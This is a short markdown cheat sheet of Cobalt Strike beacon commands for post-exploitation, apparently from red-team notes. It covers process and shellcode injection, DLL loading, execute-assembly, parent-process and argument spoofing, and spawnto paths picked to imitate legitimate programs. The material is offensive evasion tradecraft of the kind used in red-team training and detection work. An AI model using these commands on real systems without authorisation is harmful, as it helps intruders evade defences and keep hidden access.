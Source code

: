 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - process-injection
  - cobalt-strike
  - windows
---
```

# Cobalt Strike

## 01 - Migrate Process

Inject to spawn beacon session.

```
beacon> inject <pid> <architecture> <listener>
```

## 02 - Inject Process

Run powershell through another process.

```
beacon> psinject <pid> <arch> <cmdlet> [args]
```

Run .NET binary through a temporary process when running `spawnto` beacon command otherwise it defaults back to `rundll32.dll`.

```
beacon> execute-assembly /path/to/compiled_dotnet_tool.exe [arguments]
```

Inject DLL file in another process.

```
beacon> dllload <pid> c:\path\to\remove\shell.dll
```

Execute beacon object file through memory in the current process.

```
beacon> inline-execute /path/to/objectfile.o [arguments]
```

## 03 - Inject Shellcode

Inject shellcode.

```
beacon> shinject <pid> /path/to/shellcode.bin
```

Spawn a new process and inject shellcode.

```
beacon> shspawn x64
```

Spawn shellcode and tunnel.

```
beacon> spunnel <pid> /path/to/shellcode.bin
```

## 04 - Spoof Process

Spoof a parent process that is ready to spawn a new child process.

```
beacon> ppid <ppid>
```

## 05 - Spawn Beacon Session

Spawn new beacon process with under different user credentials as provided.

```
beacon> spawnas <domain>\<username> <password>
```

Specify a path of the new executable program to inject beacon shellcode other than specified in the malleable c2 profile. By default it injects `rundll32.exe` when executing `spawn`.

```
beacon> spawnto <arch> <path> <args>

beacon> spawnto x86 c:\program files (x86)\internet explorer\iexplore.exe

beacon> spawnto x86 C:\Program Files (x86)\Common Files\Java\Java Update\jucheck.exe
```

Spawn new beacon process.

```
beacon> spawn <arch> <listener>
```

## 06 - Spoof Arguments

```
beacon> argue <command> [args]
```

---
## References

- [Rasta Mouse: Cobalt Strike Spawn Tunnel](https://rastamouse.me/cobalt-strike-spawn-tunnel/)